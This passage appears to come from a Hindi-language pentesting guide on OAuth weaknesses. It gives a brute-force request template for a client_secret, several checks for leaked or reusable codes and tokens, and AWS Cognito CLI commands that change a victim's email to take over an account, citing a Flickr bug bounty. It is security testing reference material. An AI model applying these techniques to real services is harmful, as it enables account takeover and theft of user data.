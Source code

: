 आप किसी सेवा प्रदाता के `client_secret` को **bruteforce करने का प्रयास कर सकते हैं** ताकि खातों को चुराने का प्रयास किया जा सके।\
BF के लिए अनुरोध इस प्रकार दिख सकता है:
```
POST /token HTTP/1.1
content-type: application/x-www-form-urlencoded
host: 10.10.10.10:3000
content-length: 135
Connection: close

code=77515&redirect_uri=http%3A%2F%2F10.10.10.10%3A3000%2Fcallback&grant_type=authorization_code&client_id=public_client_id&client_secret=[bruteforce]
```
### Referer Header में Code + State का लीक होना

एक बार जब क्लाइंट के पास **code और state** होते हैं, अगर यह **Referer header में प्रतिबिंबित होता है** जब वह एक अलग पेज पर जाता है, तो यह संवेदनशील है।

### ब्राउज़र हिस्ट्री में Access Token का संग्रहण

**ब्राउज़र हिस्ट्री में जाएं और जांचें कि क्या access token वहां संग्रहीत है**।

### स्थायी Authorization Code

**Authorization code को केवल कुछ समय के लिए जीवित रहना चाहिए ताकि हमलावर द्वारा इसे चुराने और उपयोग करने की समय सीमा सीमित रहे**।

### Authorization/Refresh Token क्लाइंट से नहीं जुड़ा हुआ

यदि आप **authorization code प्राप्त कर सकते हैं और इसे एक अलग क्लाइंट के साथ उपयोग कर सकते हैं तो आप अन्य खातों का अधिग्रहण कर सकते हैं**।

### Happy Paths, XSS, Iframes & Post Messages का उपयोग करके code & state मानों का लीक होना

### AWS Cognito <a href="#bda5" id="bda5"></a>

इस बग बाउंटी रिपोर्ट में: [**https://security.lauritz-holtmann.de/advisories/flickr-account-takeover/**](https://security.lauritz-holtmann.de/advisories/flickr-account-takeover/) आप देख सकते हैं कि **AWS Cognito** द्वारा उपयोगकर्ता को वापस दिया गया **token** शायद **पर्याप्त अनुमतियां रखता है उपयोगकर्ता डेटा को ओवरराइट करने के लिए**। इसलिए, यदि आप **उपयोगकर्ता के ईमेल को एक अलग उपयोगकर्ता के ईमेल से बदल सकते हैं**, आप अन्य खातों का **अधिग्रहण** कर सकते हैं।
```bash
# Read info of the user
aws cognito-idp get-user --region us-east-1 --access-token eyJraWQiOiJPVj[...]

# Change email address
aws cognito-idp update-user-attributes --region us-east-1 --access-token eyJraWQ[...] --user-attributes Name=email,Value=imaginary@flickr.com
{
"CodeDeliveryDetailsList": [
{
"Destination": "i***@f***.com",
"DeliveryMedium": "EMAIL",
"AttributeName": "email"
}
]
}
```
AWS cognito का दुरुपयोग करने के बारे में अधिक विस्तृत जानकारी के लिए देखें:

